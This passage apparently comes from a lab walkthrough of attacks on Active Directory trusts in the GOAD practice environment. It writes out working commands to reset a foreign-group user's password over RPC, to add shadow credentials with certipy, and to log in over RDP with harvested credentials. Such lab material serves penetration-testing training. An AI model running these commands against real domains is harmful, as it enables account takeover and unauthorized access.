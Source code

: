```bash
net rpc password jorah.mormont -U sevenkingdoms.local/petyer.baelish%@littlefinger@ -S meereen.essos.local
Enter new password for jorah.mormont: <here we enter P@ssword123>
```

- And verify

```bash
cme smb 192.168.56.12 -u jorah.mormont -p 'P@ssword123' -d essos.local
```

![trust_change_password_foreigngroup.png](/assets/blog/GOAD/trust_change_password_foreigngroup.png)

- We can also to that with shadow credentials (but the auto will not work here, we will have to do that with two steps)

```bash
certipy shadow add -u petyer.baelish@sevenkingdoms.local -p '@littlefinger@' \
 -dc-ip 192.168.56.12 -target meereen.essos.local -account 'jorah.mormont'
```

```bash
certipy auth -pfx jorah.mormont.pfx -username jorah.mormont -domain essos.local -dc-ip 192.168.56.12
```

![trust_change_shadow_creds_cross_domain.png](/assets/blog/GOAD/trust_change_shadow_creds_cross_domain.png)

- Essos to sevenkingdoms : group accros_thenarrowsea

In the same way we can exploit the essos to sevenkingdoms foreign group

![trust_foreing_groups_accros_thenarrowsea.png](/assets/blog/GOAD/trust_foreing_groups_accros_thenarrowsea.png)


> Please not that the active directory groups are not all the same.
> There is 3 types of security groups: [https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/understand-security-groups](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/understand-security-groups)
>  - Universal
>  - Global
>  - Domain Local
>
> If a group contains members of a trusted domain, it have to be of type Domain Local.
> 
> Groups scope informations are well explained by harmj0y [here](https://posts.specterops.io/a-pentesters-guide-to-group-scoping-c7bbbd9c7560)
{: .prompt-info }

## Use unconstrained delegation

- From kingslanding we can rule the essos domain with unconstrained delegation

- We connect to kingslanding with rdp as an administrator

```bash
xfreerdp /d:sevenkingdoms.local /u:cersei.lannister /p:'il0vejaime' /v:192.168.56.10 /size:80%  /cert-ignore
```
